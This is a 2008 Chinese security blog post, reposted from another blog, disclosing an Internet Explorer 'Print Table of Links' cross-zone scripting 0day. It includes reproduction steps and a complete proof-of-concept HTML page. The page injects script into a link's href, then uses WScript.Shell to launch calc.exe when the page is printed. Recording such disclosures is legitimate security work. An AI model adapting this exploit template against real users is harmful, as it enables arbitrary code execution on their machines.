 ```yaml
---
title: Aviv Raff的IE 0day-MS IE“Print Table of Links”Cross-Zone Scripting Vulnerability
description: MSInternetExplorer“PrintTableofLinks”Cross-ZoneScriptingVulnerability具体细节:http://aviv.raffon.net/2008/05/14/InternetExplorerQuotPrintTableOfLinksquotCrossZoneScriptingVulnerability.aspx如果启用了“PrintTableofLinks”，在打印一个网页的时候，能够导致执行任意代码，当然VISTA上UAC可以拦截它
date: 2008-05-16 08:47:47
category: 漏洞信息
tags: ['0day', '浏览器', '漏洞信息']
post_id: 483
alias: Aviv-Raff-IE-0day-Print-Table-of-Links
ViewNums: 4664
---
```


[夜火](/blog/)IE[浏览器](/tags/%E6%B5%8F%E8%A7%88%E5%99%A8)的[0day](/tags/0day)漏洞。。。。。。。。。代码比较简单

**MS Internet Explorer “Print Table of Links” Cross-Zone Scripting Vulnerability**
具体细节:http://aviv.raffon.net/2008/05/14/InternetExplorerQuotPrintTableOfLinksquotCrossZoneScriptingVulnerability.aspx

如果启用了 “Print Table of Links”，在打印一个网页的时候，能够导致执行任意代码，当然VISTA上UAC可以拦截它

重现：
1.下面这个地方打上勾
![](http://pic.yupoo.com/sunlei/8644058e7ef9/8tnedwcr.jpg)

2.把下面代码保存成HTML，用IE打开，打印之，calc.exe会弹出。 （也可以直接访问<http://raffon.net/research/ms/ie/print/linksrce.html>）
*<html>
<body>
Print me with table of links to execute calc.exe
<a href=”http://www.bla.com?x=b<script defer >var x=new ActiveXObject(’WScript.Shell’);x.Run(’calc.exe’);</script>a.c<u>o</u>m”></a>
<script>window.print();</script>
</body>
</html>*

这个[漏洞](/tags/%E6%B5%8F%E8%A7%88%E5%99%A8)大牛蛙他们据说当时很快就找出来了，应该也有很多别的同学找到了吧。

From：Sowhat的blog

